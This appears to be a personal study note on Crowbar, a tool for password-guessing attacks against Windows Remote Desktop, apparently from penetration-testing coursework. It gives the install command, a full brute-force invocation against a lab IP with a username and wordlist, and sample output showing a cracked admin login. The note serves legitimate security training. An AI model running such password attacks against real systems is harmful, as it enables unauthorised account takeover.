 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Crowbar]]  
___

## Description:  

one of the few tools that can reliably and efficiently perform password attacks against the Windows Remote Desktop Protocol (RDP) service on modern versions of Windows

```
sudo apt install crowbar
```

To invoke crowbar, we will specify the protocol (-b), the target server (-s), a username (-u), a 
wordlist (-C), and the number of threads (-n)
```
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1

2019-08-16 04:51:12 START 2019-08-16 04:51:12 Crowbar v0.3.5-dev 
2019-08-16 04:51:12 Trying 10.11.0.22:3389 
2019-08-16 04:51:13 RDP-SUCCESS : 10.11.0.22:3389 - admin:Offsec! 
2019-08-16 04:51:13 STOP L
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (09:25 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
